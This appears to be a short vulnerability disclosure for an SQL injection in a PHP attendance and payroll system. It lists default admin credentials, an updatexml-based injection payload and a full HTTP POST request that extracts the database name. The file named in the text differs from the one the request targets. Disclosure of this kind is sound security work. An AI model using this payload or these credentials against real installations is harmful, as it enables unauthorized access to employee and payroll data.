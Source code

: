 # Attendance and Payroll System v1.0 - SQL injection

username:nurhodelta password:password ----> {ip}apsystem/admin/index.php

Supplier： https://www.sourcecodester.com/php/12268/attendance-and-payroll-system-using-php.html

\admin\schedule_edit.php has SQL injection

Payload: id=1' and updatexml(1,concat(0x7e,(select database()),0x7e),0)--+&schedule=2&edit=

SQL injection because id can be closed

![image](https://user-images.githubusercontent.com/54017627/159264730-98b897e4-7ac6-4f16-955b-fe8c0c09e328.png)

```sql
POST /apsystem/admin/schedule_employee_edit.php HTTP/1.1
Host: 192.168.1.17
Content-Length: 82
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://192.168.1.17
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/99.0.4844.74 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://192.168.1.17/apsystem/admin/schedule_employee.php
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=2nud4pa7qt6oo5odl3120a4bta
Connection: close

id=1' and updatexml(1,concat(0x7e,(select database()),0x7e),0)--+&schedule=2&edit=
```
![image](https://user-images.githubusercontent.com/54017627/159266161-449a5cf9-ff51-4c61-adc0-332edef0909e.png)

![image](https://user-images.githubusercontent.com/54017627/159264908-f37ba338-5d88-4e51-9a96-10dff0094da3.png)
